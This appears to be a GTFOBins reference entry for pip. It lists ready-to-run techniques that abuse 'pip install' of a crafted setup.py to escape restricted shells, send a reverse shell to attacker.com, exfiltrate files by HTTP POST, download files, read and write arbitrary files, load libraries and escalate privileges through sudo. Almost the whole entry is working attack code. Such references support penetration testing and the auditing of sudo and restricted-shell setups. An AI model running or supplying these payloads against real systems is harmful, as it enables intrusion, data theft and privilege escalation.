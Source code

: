 # GTFOBin: pip

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip install $TF
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
TF=$(mktemp -d)
echo 'import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")' > $TF/setup.py
pip install $TF
```

## File upload

It can exfiltrate files on the network.

Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
TF=$(mktemp -d)
echo 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
pip install $TF
```

Serve files in the local folder running an HTTP server.

```
export LPORT=8888
TF=$(mktemp -d)
echo 'import sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
pip install $TF
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request. It needs an absolute local file path.

```
export URL=http://attacker.com/file_to_get
export LFILE=/tmp/file_to_save
TF=$(mktemp -d)
echo 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])' > $TF/setup.py
pip install $TF
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

It needs an absolute local file path.

```
export LFILE=/tmp/file_to_save
TF=$(mktemp -d)
echo "open('$LFILE','w+').write('DATA')" > $TF/setup.py
pip install $TF
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The read file content is corrupted as wrapped within an exception error.

```
TF=$(mktemp -d)
echo 'raise Exception(open("file_to_read").read())' > $TF/setup.py
pip install $TF
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

```
TF=$(mktemp -d)
echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
pip install $TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```